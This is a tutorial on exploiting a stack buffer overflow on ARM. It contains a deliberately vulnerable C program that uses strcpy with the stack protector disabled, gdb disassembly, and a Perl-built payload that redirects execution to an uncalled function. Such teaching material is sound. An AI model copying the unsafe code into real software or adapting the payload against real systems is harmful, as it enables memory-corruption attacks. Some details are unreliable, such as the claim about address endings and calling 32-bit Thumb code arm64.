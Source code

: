 # ARM Buffer overflow

## file

```
#include <stdio.h>
#include <stdlib.h>

void IShouldNeverBecalled() {
    printf("I should never be called");
    fflush(stdout);
    exit(0);
}

void vulnerable(char *arg) {
    char buff[16];
    strcpy(buff, arg);
}

void main(int argc, char **argv) {
    vulnerable(argv[1]);
    return(0);
}

```

Compile it:
```
gcc -ggdb vuln.c -o vuln -fno-stack-protector
```


## Info gathering

Lets check the main function:
```
(gdb) disas main
Dump of assembler code for function main:
   0x000104f4 <+0>:     push    {r7, lr}
   0x000104f6 <+2>:     sub     sp, #8
   0x000104f8 <+4>:     add     r7, sp, #0
   0x000104fa <+6>:     str     r0, [r7, #4]
   0x000104fc <+8>:     str     r1, [r7, #0]
   0x000104fe <+10>:    ldr     r3, [r7, #0]
   0x00010500 <+12>:    adds    r3, #4
   0x00010502 <+14>:    ldr     r3, [r3, #0]
   0x00010504 <+16>:    mov     r0, r3
   0x00010506 <+18>:    bl      0x104d8 <vulnerable>
   0x0001050a <+22>:    nop
   0x0001050c <+24>:    adds    r7, #8
   0x0001050e <+26>:    mov     sp, r7
   0x00010510 <+28>:    pop     {r7, pc}
End of assembler dump.
```

Lets check the vulnerable function:
```
(gdb) disas vulnerable
Dump of assembler code for function vulnerable:
   0x000104d8 <+0>:     push    {r7, lr}
   0x000104da <+2>:     sub     sp, #24
   0x000104dc <+4>:     add     r7, sp, #0
   0x000104de <+6>:     str     r0, [r7, #4]
   0x000104e0 <+8>:     add.w   r3, r7, #8
   0x000104e4 <+12>:    ldr     r1, [r7, #4]
   0x000104e6 <+14>:    mov     r0, r3
   0x000104e8 <+16>:    blx     0x10394 <strcpy@plt>
   0x000104ec <+20>:    nop
   0x000104ee <+22>:    adds    r7, #24
   0x000104f0 <+24>:    mov     sp, r7
   0x000104f2 <+26>:    pop     {r7, pc}
End of assembler dump.
(gdb)
```

## Overflow

```
(gdb) b *0x000104f2
Breakpoint 1 at 0x104f2: file vuln.c, line 13.

(gdb) run `perl -e 'print "AAAABBBBCCCCDDDDEEEEaaaa"'`
Starting program: /root/tmp/vuln `perl -e 'print "AAAABBBBCCCCDDDDEEEEaaaa"'`

Breakpoint 2, 0x000104f2 in vulnerable (arg=0xfffef93f "AAAABBBBCCCCDDDDEEEEaaaa") at vuln.c:13
13      }

(gdb) x/16x $sp
0xfffef6c8:     0x45454545      0x61616161      0xfffef800      0x00000002
0xfffef6d8:     0x00000000      0xf76f28ab      0xf77c4000      0xfffef834
0xfffef6e8:     0x00000002      0x000104f5      0xf77f0000      0xaaaaaaab
0xfffef6f8:     0x1c59d9a6      0x14c8073b      0x0000012c      0x00000000
```

Compare it with original execution (without overflow):
```
(gdb) run `perl -e 'print "AAAABBBBCCCCDDDD"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/tmp/vuln `perl -e 'print "AAAABBBBCCCCDDDD"'`

Breakpoint 2, 0x000104f2 in vulnerable (arg=0xfffef947 "AAAABBBBCCCCDDDD") at vuln.c:13
13      }
(gdb) x/16x $sp
0xfffef6c8:     0xfffef600      0x0001050b      0xfffef834      0x00000002
0xfffef6d8:     0x00000000      0xf76f28ab      0xf77c4000      0xfffef834
0xfffef6e8:     0x00000002      0x000104f5      0xf77f0000      0xaaaaaaab
0xfffef6f8:     0x5695adca      0x5e047357      0x0000012c      0x00000000
```

Check address `0x0001050b`:
```
(gdb) disas main
Dump of assembler code for function main:
   0x000104f4 <+0>:     push    {r7, lr}
   0x000104f6 <+2>:     sub     sp, #8
   0x000104f8 <+4>:     add     r7, sp, #0
   0x000104fa <+6>:     str     r0, [r7, #4]
   0x000104fc <+8>:     str     r1, [r7, #0]
   0x000104fe <+10>:    ldr     r3, [r7, #0]
   0x00010500 <+12>:    adds    r3, #4
   0x00010502 <+14>:    ldr     r3, [r3, #0]
   0x00010504 <+16>:    mov     r0, r3
   0x00010506 <+18>:    bl      0x104d8 <vulnerable>
   0x0001050a <+22>:    nop
   0x0001050c <+24>:    adds    r7, #8
   0x0001050e <+26>:    mov     sp, r7
   0x00010510 <+28>:    pop     {r7, pc}
End of assembler dump.
```

Seems the address on the stack is pointing to the `nop` at address `0x0001050a`.
But the saved address is `0x0001050b`, so 1 byte higher. Lets keep this in mind.

Note that ARM is 4 byte aligned (32 bit), so valid addresses always end with 0, 4, 8, b.
But in thumb mode, instructinos are 2 byte (16 bit).

## Execute another function

get address of IShouldNeverBecalled():
```
(gdb) disas IShouldNeverBecalled
Dump of assembler code for function IShouldNeverBecalled:
   0x000104b0 <+0>:     push    {r7, lr}
   0x000104b2 <+2>:     add     r7, sp, #0
   0x000104b4 <+4>:     movw    r0, #1376       ; 0x560
   0x000104b8 <+8>:     movt    r0, #1
   0x000104bc <+12>:    blx     0x1037c <printf@plt>
   0x000104c0 <+16>:    movw    r3, #4148       ; 0x1034
   0x000104c4 <+20>:    movt    r3, #2
   0x000104c8 <+24>:    ldr     r3, [r3, #0]
   0x000104ca <+26>:    mov     r0, r3
   0x000104cc <+28>:    blx     0x10388 <fflush@plt>
   0x000104d0 <+32>:    movs    r0, #0
   0x000104d2 <+34>:    blx     0x103b8 <exit@plt>
```

The address we want to jump to is `0x000104b0`. But, as we have seen in the previous
chapter, we need to increment it by one byte: `0x000104b1`.

Lets try this:

```
(gdb) run `perl -e 'print "AAAABBBBCCCCDDDDEEEE\xb1\x04\x01"'`
Starting program: /root/tmp/vuln `perl -e 'print "AAAABBBBCCCCDDDDEEEE\xb1\x04\x01"'`

I should never be called
```

## Conclusion

Here, Ubuntu 16.04 on arm64 bit behaves pretty much exactly the same as x86.
Stack grown down, we have little endianness, and the return address is on the stack.
The only big difference is the ARM assembly codes.

